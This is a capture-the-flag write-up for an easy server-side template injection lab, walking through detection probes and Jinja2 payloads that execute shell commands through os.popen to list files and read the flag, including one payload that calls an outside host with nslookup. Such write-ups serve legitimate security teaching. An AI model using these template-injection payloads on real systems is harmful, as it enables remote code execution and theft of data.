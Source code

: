 Challenge: SSTI1 
Level: Easy
Challenge Author: Venax

Description: 
A developer has added profile picture upload functionality to a website. 
However, the implementation is flawed, and it presents an opportunity for you. 
Your mission, should you choose to accept it, is to navigate to the provided 
web page and locate the file upload area. Your ultimate goal is to find the hidden 
flag located in the /root directory.

Step-by-Step Walkthrough:

As usual, our first hint comes from the title of the challenge. SSTI stands for 
Server Side Template Injection. So we can expect a vulnerability in the submission form somehow.
The attacker tests the identified input field by injecting template syntax specific to the template engine in use. Different web frameworks use different template engines (e.g., Jinja2 for Python, Twig for PHP, or FreeMarker for Java).
In most cases, the input ‘${{<%[%'"}}%\.’, can be utilized to detect a vulnerability. If it errors out, we know we're on the right track

Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections

Our injection {{7\*7}} returns 49, so that seems to work. Then, running {{7\*'7'}} returns 7 7s, which is what we'd expect. So we can continue with either Jinja2 or Twig.

The page then directs us to [Template Engines Injection 101](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

The last link I shared allows you to fingerprint everything, making it an extremely valuable tool. Someone probably already put it in a script of some kind, but to understand the process, the page is extremely useful (if a bit difficult to follow since there is an extreme lack of copy capability!)

I can start my search with Jinja2, which grabs me the injection template 3.11: 

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('nslookup oastify.com').read()}}
```

On its own, it provides a blank page. I'm not exactly certain why that is, there might be a firewall blocking egress from the server, but the important part of that script is the "nslookup oastify.com". This is where we can input commands. For this next part, use the following, note where I inserted the "ls" command

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

We can see 4 files here, but the important one is titled "flag". Let's input one more command!

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
